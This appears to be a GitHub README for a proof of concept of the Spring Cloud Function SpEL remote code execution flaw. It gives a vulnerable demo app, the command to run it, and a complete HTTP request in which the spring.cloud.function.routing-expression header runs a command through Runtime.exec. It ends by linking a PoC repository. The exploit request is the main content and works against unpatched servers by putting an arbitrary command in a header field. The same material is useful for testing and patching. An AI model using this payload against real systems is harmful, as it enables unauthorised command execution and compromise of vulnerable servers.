 # spring-cloud-function SpEL RCE

## Vultarget

You can build it for youself. [here is the source of the Vuln App](./src)

Or you can use [the release which built by cckuailong(Yh,it's me)](https://github.com/cckuailong/spring-cloud-function-SpEL-RCE/releases/tag/untagged-e1c4060d01bbb4ddc6cf)

```
java -jar function-sample-pojo-3.2.1.RELEASE.jar
```

## Poc

```
POST /xxx HTTP/1.1
Host: test.com:8080
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("/System/Applications/Calculator.app/Contents/MacOS/Calculator")
Content-Type: application/x-www-form-urlencoded
Content-Length: 3

xxx
```

## Result

RCE！！

![demo](./img/demo.png)

Enjoy it!

I'll put the poc code in the repo:

https://github.com/cckuailong/pocsploit

